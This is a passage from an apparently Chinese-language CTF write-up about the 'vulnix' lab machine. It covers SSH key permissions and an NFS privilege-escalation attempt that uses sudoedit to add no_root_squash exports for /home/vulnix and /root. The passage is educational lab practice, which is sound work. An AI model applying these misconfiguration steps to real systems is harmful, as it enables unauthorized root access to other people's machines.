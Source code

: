 
```shell
chmod 700 /tmp/nfs/.ssh
chmod 644 /tmp/nfs/.ssh/authorized_keys  
chmod 600 /root/.ssh/id_rsa　　　
```

还是连不上，看一下刚刚连上的那个：

![image-20240214215720015](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402142335746.png)

设置的是可以连上的呀，佛了！

## 提权

查看一下特权文件有哪些：

```shell
sudo -l
# Matching 'Defaults' entries for vulnix on this host:
#     env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
# User vulnix may run the following commands on this host:
#     (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```

```shell
sudoedit /etc/exports
#  /etc/exports: the access control list for filesystems which may be exported
# #               to NFS clients.  See exports(5).
# #
# # Example for NFSv2 and NFSv3:
# # /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
# #
# # Example for NFSv4:
# # /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# # /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
# #
# /home/vulnix    *(rw,root_squash)
```

修改一下：

- Ro 只读权限
- Rw读写权限
- Sync数据同步写入内存硬盘
- no_root_squash 访问共享目录时，用户如果是root权限，对共享目录也具有root权限（最好不要设置，增加服务安全隐患，稍后再提）
- root_squash 如果访问共享目录是root的权限用户，对共享目录的权限会被压缩为nfsnobody用户的权
- all_squash 不管你访问共享目录的用户是谁，都必须压缩为nfsnobody用户的权限

```shell
/home/vulnix    *(rw,no_root_squash)
/root       *(rw, no_root_squash)
```

修改以后 `Ctrl+O`保存，`Ctrl+X`退出。

修改以后，想要生效，需要执行命令`exportfs -a`，但是该命令需要 root 权限进行实现，所以不可行。
